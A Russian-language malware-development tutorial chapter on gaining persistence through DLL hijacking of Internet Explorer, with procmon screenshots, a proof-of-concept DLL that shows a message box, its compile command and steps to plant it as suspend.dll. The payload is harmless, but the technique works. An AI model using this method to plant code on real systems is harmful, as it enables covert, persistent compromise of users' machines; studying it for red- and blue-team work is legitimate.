\newpage
\subsection{81. разработка вредоносного ПО: закрепление (persistence) - часть 15. Internet Explorer. Простой пример на C++.}

﷽


{width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через Internet Explorer.     

### internet explorer

В одном из моих [предыдущих постов](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) я писал о реальном примере DLL-подмены. На этот раз жертвой становится Internet Explorer. Конечно, многие из вас даже не используют его и вряд ли удаляли его намеренно из Windows.    

### практический пример

Как и в предыдущем посте, запустим [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из sysinternals и установим следующие фильтры:    

{width="80%"}    

Затем запустим `Internet Explorer`:     

{width="80%"}    

{width="80%"}    

Как видно, процесс `iexplore.exe` не находит несколько DLL, которые потенциально можно использовать для DLL-подмены. Например, `suspend.dll`:     

{width="80%"}    

Давайте попробуем найти другие возможные местоположения, возможно, у нас есть легитимная версия этой DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

{width="80%"}    

Но, как видно, файл не найден, значит, эта DLL используется только Internet Explorer.    

Затем я подготовил "вредоносную" DLL с сообщением `meow-woof`:    

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем нашу вредоносную DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}    

Затем переименовываем файл в `suspend.dll` и помещаем его в каталог, откуда загружается Internet Explorer:     

{width="80%"}    

{width="80%"}    

И, наконец, пробуем запустить наше целевое приложение:     

{width="80%"}    

{width="80%"}    

{width="80%"}    

После закрытия всплывающего окна Internet Explorer продолжает работать, не завершается с ошибкой:    

{width="80%"}    

Как можно видеть, все сработало. Идеально! =^..^=     

### заключение

Теперь мы добились персистентности через Internet Explorer.    

Именно поэтому этот пост относится к категории персистентности – наша вредоносная DLL будет запускаться каждый раз, когда пользователь открывает Internet Explorer. И также при его закрытии. Небольшой сюрприз для любителей Windows. Вам даже не нужно ничего устанавливать или удалять.    

Это также работает на `Windows 11 x64`:     

{width="80%"}    

Хотя вряд ли кто-то запустит Internet Explorer в 2022 году, согласны?    

Как охотник за уязвимостями в Windows, если вы хотите найти уязвимости повышения привилегий в самой операционной системе, вам часто стоит начинать с чистого листа – с новой установки Windows.    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
